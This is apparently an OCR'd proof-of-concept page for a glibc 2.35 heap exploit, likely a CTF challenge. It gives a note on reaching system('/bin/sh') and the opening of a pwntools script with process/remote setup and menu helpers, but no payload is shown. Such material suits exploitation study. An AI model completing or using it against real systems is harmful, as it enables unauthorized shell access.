## POC

编译`bug_house.c`，在`glibc2.35`下可以执行`system(""/bin/sh")`

```c
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './obstack'
context.arch='amd64'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug():
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid)
    pause()

choice_words = 'Please input your choice>'

menu_add = 1
add_index_words = 'Please input the chunk index>'
add_size_words = 'Please input the size>'
add_content_words = 'Please input the content>'

menu_del = 4
del_index_words = 'Please input the index>'

menu_show = 3
show_index_words = 'Please input the index>'

menu_edit = 5
edit_index_words = 'Please input the chunk index>'
edit_size_words = 'Please input the size>'
edit_content_words = 'Please input the content>'



def add(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_add))
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_content_words:
        sh.sendafter(add_content_words, content)

def delete(index=-1):
    sh.sendlineafter(choice_words, str(menu_del))
    if del_index_words:
        sh.sendlineafter(del_index_words, str(index))
```